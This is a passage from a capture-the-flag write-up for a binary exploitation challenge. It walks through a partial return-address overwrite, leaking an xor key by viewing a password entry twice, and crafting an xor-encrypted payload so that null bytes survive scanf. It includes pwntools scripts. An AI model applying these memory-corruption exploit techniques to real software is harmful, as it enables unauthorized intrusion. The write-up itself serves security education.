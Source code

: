 It turns out that we cannot simply write a payload like
```python
hostname = b"A"*128 + b":"
password = p16(0x7F70) # partial override
```
This is because the password is not long enough to trigger the overflow.
We cannot add stuff after the password, otherwise we would break the partial-override, so now what?

Well, xor comes to the rescue!
The xor mechanism works as sort of toggle: every time an entry gets viewed the password is xored in memory. This means that viewing an entry twice will leak the xored password and, as we obviously know the original password, we can leak the key.
```python
r = conn()
add_entry(r,b"A" * 255, b"B" * 255)
view_entry(r,0) # view first time
hostname, password = view_entry(r,0) # view second time
key = xor(password, b"B" * 255)[:64]
```

Now we can write an encrypted payload that upon decryption contains null bytes
```python
password = p16(0x7F70) + b"\x00"*253 # requires 4 bit bruteforce (0x7)
password = xor(password, key)[:3] + b"a"*252
```
This way we can submit a 255 bytes long password to `scanf`, but when viewing it it'll get xored with the key and become our partial-override payload!
![libc leak](./libc_leak.png)

#### Avoid scanf headaches
This approach is not entirely reliable as sometimes `xor(password, key)` contains characters that stop the `scanf`. To avoid headaches I wrote a script to find these characters (yeah, I could have RTFM, but this way was faster).
```python
for i in range(256):
	r = conn()
	r.sendlineafter(b">", b"1")
	r.sendlineafter(b":", b"a")
	payload = b"a" + i.to_bytes() + b"a"
	r.sendlineafter(b":", payload)
	
	r.recvuntil(b">")
	if r.recvuntil(b">", timeout=0.1) != b"":
		print(i.to_bytes().hex())
	r.close()
```
And the result was the following:
```python
assert b"\x00" not in payload
assert b"\x0a" not in payload
assert b"\x0d" not in payload
```